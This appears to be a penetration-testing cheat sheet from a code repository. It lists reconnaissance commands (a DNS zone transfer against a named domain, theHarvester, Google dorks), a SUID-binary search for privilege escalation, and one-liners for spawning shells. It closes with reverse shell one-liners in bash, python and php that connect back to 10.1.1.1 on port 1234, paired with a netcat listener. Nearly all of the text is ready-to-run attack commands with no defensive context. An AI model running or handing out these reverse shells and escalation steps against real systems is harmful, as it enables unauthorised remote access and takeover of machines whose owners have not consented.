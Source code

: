 # zone-transfere
```
dnsrecon -d almadar.ly -a
```

# theharvester
To collect data from certain search engines
```
theharvester -d example.com -l 500 -b google,bing -f result.html
```
# google dork

site:example.com

cache:example.com

# find files permission for the current user

`find / -perm -u=s -type f 2>/dev/null`

# spawn tty

source https://netsec.ws/?p=337

`python -c 'import pty; pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

`perl —e 'exec "/bin/sh";'`

`perl: exec "/bin/sh";`

`ruby: exec "/bin/sh"`

### lua:

`os.execute('/bin/sh')`

### (From within IRB)

`exec "/bin/sh"`

### (From within vi)

`:!bash`

### (From within vi)

`:set shell=/bin/bash:shell`

### (From within nmap)

`!sh`

# Reverse shell

source http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On the Attacker machine, use nc to open the listening port

`nc -lvp 1234`

On the Vulnerbale Machine do one of the following depending on the programming language

### bash

`bash -i >& /dev/tcp/10.1.1.1/1234 0>&1`


### python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.1.1.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'`


### php

`php -r '$sock=fsockopen("10.1.1.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
`
